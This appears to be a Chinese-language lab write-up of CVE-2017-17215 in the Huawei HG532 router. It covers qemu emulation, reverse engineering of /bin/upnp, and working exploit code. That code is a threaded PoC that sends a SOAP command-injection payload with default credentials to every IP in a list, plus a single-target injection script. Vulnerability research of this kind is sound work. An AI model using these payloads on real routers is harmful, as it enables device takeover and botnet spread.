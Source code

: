 ```yaml
---
title: "CVE-2017-17215"
subtitle: "華為 HG532"
layout: post
author: "Hsu"
published: true
header-style: text
tags:
  - CVE
---
```

# CVE-2017-17215
> 工具: qemu-mips
## description
Huawei HG532 with some customized versions has a **remote code execution** vulnerability. An authenticated attacker could **send malicious packets to port 37215** to launch attacks. Successful exploit could lead to the remote execution of arbitrary code.
- 關鍵字: `37215`
## 模擬
- 先把映像檔載下來
    ```bash
    wget https://people.debian.org/~aurel32/qemu/mips/debian_squeeze_mips_standard.qcow2
    wget https://people.debian.org/~aurel32/qemu/mips/vmlinux-2.6.32-5-4kc-malta
    ```
- 網路配置
    - 網橋創立
    ```bash
    sudo brctl addbr Virbr0
    sudo ifconfig Virbr0 192.168.10.1/24 up
    ```
    - 增加tap0接口
    ```bash
    sudo tunctl -t tap0
    sudo ifconfig tap0 192.168.10.11/24 up
    sudo brctl addif Virbr0 tap0
    ```
- 創建虛擬機
    ```bash
    sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic
    ```
- 在虛擬機上設定網路
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ping 192.168.10.1 -c10
    ```
- 在本機端傳送檔案
    ```bash
    scp -r squashfs-root/ root@192.168.10.2:~/
    ```
- 掛載檔案
    ```bash
    mount -o bind /dev ./squashfs-root/dev
    mount -t proc /proc ./squashfs-root/proc
    ```
- 回到本機端設定
    ```bash
    ssh root@192.168.10.2
    chroot squashfs-root /bin/sh
    ./bin/upnp
    ./bin/mic
    ```
- 接著就會發現ip改變，ssh中斷，因此要改回去
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ```
- 最後模擬成功，可以去192.168.10.2看
## PoC
```python3=
import threading, sys, time, random, socket, re, os, struct, array, requests
from requests.auth import HTTPDigestAuth
ips = open(sys.argv[1], "r").readlines()
cmd = "" # Your MIPS (SSHD)
rm = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"

class exploit(threading.Thread):
		def __init__ (self, ip):
			threading.Thread.__init__(self)
			self.ip = str(ip).rstrip('\n')
		def run(self):
			try:
				url = "http://" + self.ip + ":37215/ctrlt/DeviceUpgrade_1"
				requests.post(url, timeout=5, auth=HTTPDigestAuth('dslf-config', 'admin'), data=rm)
				print "[SOAP] Attempting to infect " + self.ip
			except Exception as e:
				pass

for ip in ips:
	try:
		n = exploit(ip)
		n.start()
		time.sleep(0.03)
	except:
		pass
            
```
- 可以看到注入點應該是`NewDownloadURL`，但問題是在哪裡?
    - 往下看會看到`NewDownloadURL`是命令注射點

## write up
- 尋找幾個關鍵字: `37215`, `NewDownloadURL`
    ![image](https://hackmd.io/_uploads/ryA2TnUT0.png)
    - 所以漏洞應該與`/bin/upnp`, `/bin/mic`有關
- 逆向`/bin/upnp`，並搜尋`NewDownloadURL`後會出現這個
![image](https://hackmd.io/_uploads/SJPppnUpA.png)
    - 可以看出`ATP_XML_GetChildNodeByName`功能是分析XML，並將結果字串丟到第三個參數，回傳值是成功與否
    - 接著她可愛的程式碼沒經過任何處理就直接把字串拚一拚丟到system中
    - 因此我們可以用xml建構一些壞東西
- `script.py`
    ```python=
    import requests
    from requests.auth import HTTPDigestAuth


    data = '''
    <?xml version="1.0" ?>
     <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
       <NewStatusURL>;/bin/busybox ls -al;</NewStatusURL>
       <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
      </u:Upgrade>
     </s:Body>
    </s:Envelope>
    '''

    requests.post('http://192.168.10.2:37215/ctrlt/DeviceUpgrade_1',auth=HTTPDigestAuth('dslf-config', 'admin'),data=data)
    ```
- 結果(點到為止就好，剩下就是幹一個reverse shell出來，~~我累累病~~)
    - ![image](https://hackmd.io/_uploads/r1ERa28aC.png)



